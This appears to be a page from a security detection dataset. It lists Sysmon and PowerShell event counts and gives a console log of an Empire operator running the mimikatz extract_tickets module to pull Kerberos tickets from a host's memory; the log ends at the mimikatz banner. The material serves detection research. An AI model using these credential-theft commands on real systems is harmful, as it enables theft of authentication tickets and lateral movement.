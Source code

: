 | Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             190 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |              77 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              51 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              26 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               3 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            2294 |

## Attacker Activity

```
(Empire: TKV35P8X) > usemodule credentials/mimikatz/extract_tickets
(Empire: powershell/credentials/mimikatz/extract_tickets) > info

              Name: Invoke-Mimikatz extract kerberos tickets.
            Module: powershell/credentials/mimikatz/extract_tickets
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to extract
  kerberos tickets from memory in base64-encoded form.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        TKV35P8X                  Agent to run module on.                 

(Empire: powershell/credentials/mimikatz/extract_tickets) > execute
[*] Tasked TKV35P8X to run TASK_CMD_JOB
[*] Agent TKV35P8X tasked with task ID 39
[*] Tasked agent TKV35P8X to run module powershell/credentials/mimikatz/extract_tickets
(Empire: powershell/credentials/mimikatz/extract_tickets) > Job started: YG28AV
Hostname: HR001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

```